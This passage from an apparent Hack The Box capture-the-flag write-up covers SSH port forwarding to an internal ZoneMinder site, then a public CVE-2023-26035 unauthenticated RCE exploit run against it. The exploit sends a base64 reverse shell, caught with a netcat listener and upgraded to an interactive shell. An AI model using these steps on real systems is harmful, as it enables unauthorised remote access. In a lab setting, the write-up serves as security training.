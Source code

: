 Running `curl http://localhost:8080` confirms that something is being hosted internally. I had to do some research here, and found that the best course of action involved SSH Local Port Forwarding. The command looks like `ssh -L <local_port>:<atttacking_IP>:8080 matthew@<target_IP>`. This command connects to ssh as matthew, and forwards requests to \<attacking_IP>:\<local_port>. This means that we can browse to the local website! I used 9990 as my local port, so I browsed to http://localhost:9990, and was greeted with the ZoneMinder login page!

![A screenshot of the ZoneMinder login page. It includes fields for a username and password.](https://github.com/massey-n/CTF-Writeups/blob/main/HackTheBox/images/image-5.png)

I tried to use the password mentioned by linpeas with various usernames, but to no avail. We can get the version number from our ssh session by running `apt list --installed | grep zoneminder`, which reveals that the server is running ZoneMinder 1.36.32. A quick google search one again reveals an unauthenticated RCE exploit for this version! We can download this one to our attacking machine with `git clone https://github.com/rvizx/CVE-2023-26035 && cd cve-2023-26035`. As always, it is good practice to read through the exploit and understand what it is doing. This exploit does the following:

- Takes user input with -t (for the target url), -ip (for the local IP), and -p (for the listener port)
- Creates a bash reverse shell and base64 encodes it to avoid filtering
- Creates a payload that echoes the string, decodes it, and executes it.
- Checks if it can communicate with the target
- Posts the payload to http://target/index.php

I opened up a netcat listener on port 9090 (`nc -lvnp 9090`) and executed the command with `python3 exploit.py -t http://localhost:9990 -ip <attacking_IP> -p 9090`. In my situation, the exploit script informed me that the shell had failed, when in reality it had not. I now have access as zoneminder! As always, the first thing I do is upgrade my shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
^Z
stty -raw echo; fg
reset
```
